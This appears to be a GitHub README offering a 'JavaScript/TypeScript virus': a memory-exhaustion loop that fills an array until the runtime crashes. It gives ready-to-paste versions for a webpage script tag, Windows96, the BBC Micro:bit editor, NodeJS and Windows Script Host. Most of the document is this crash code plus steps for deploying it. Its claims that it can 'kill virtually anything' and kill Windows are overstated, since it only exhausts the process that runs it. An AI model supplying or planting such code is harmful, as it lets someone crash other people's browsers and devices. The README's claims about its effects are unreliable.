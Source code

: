 # 99999
A JavaScript/TypeScript virus that will kill virtually anything


Platforms it has effect on:
* Google Chrome/Chromium-based browsers
* NodeJS
* Any version of Windows(via WSCRIPT.EXE)
* BBC Micro:bit(MakeCode Editor)
* Internet Explorer
* IEMode in Edge (kills IEChooser at the same time)


## Kill a webpage
Paste the JS code inside of a script tag.
```html
<script>
  function ohSnap() {
  var corruptable=[]
  for(var i=0;i<(9999999*999999999999999999999);i++) {
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
  }
}

ohSnap()
</script>
```

## Kill a Windows96 instance
Create a WRT bin:
```js
//!wrt
function ohSnap() {
  var corruptable=[]
  for(var i=0;i<(9999999*999999999999999999999);i++) {
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
  }
}

ohSnap()
```

## Kill the BBC Micro:bit
Open the makecode editor at https://makecode.microbit.org/, create a project, and paste the typescript in:
```ts
function ohSnap () {
    for (let i = 0; i <= (9999999 * 999999999999999999999) - 1; i++) {
        corruptable.push(i)
        corruptable.push(i)
        corruptable.push(i)
        corruptable.push(i)
        corruptable.push(i)
        corruptable.push(i)
        corruptable.push(i)
        corruptable.push(i)
        corruptable.push(i)
        corruptable.push(i)
        corruptable.push(i)
    }
}
let corruptable: number[] = []
corruptable = []
ohSnap()
```

## Killing NodeJS and Windows98+
The standalone JavaScript works well.
```js
function ohSnap() {
  var corruptable=[]
  for(var i=0;i<(9999999*999999999999999999999);i++) {
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
  }
}

ohSnap()
```
Pasting it into NodeJS will result in NodeJS crashing.
If you're using a NodeJS Repl on [Replit](https://replit.com/), you might see text saying `The Repl proccess died unexpectedly`.
To Kill Windows98 or above, open the MS-DOS prompt. Make sure you have Windows Script Host by running WSCRIPT.EXE. If it shows WSH settings, close them and run `WSCRIPT.EXE path/to/99999.js`
